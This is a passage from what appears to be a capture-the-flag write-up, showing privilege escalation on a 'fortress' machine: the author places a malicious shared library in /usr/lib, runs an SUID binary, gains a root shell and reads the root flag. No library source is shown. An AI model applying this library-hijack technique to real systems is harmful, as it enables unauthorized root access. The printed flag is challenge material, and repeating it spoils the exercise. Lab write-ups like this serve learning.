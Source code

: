 We compiled a malicious ‘.so’ file, let’s copy this to ‘/usr/lib’ directory and execute the SUID binary.

```
j4x0n@fortress:~$ /opt/bt
Root Shell Initialized...
Exploiting kernel at super illuminal speeds...
Getting Root...
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@fortress:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(j4x0n)

root@fortress:~# cat /root/root.txt
3a17cfcca1aabc245a2d5779615643ae
```

We go root shell.
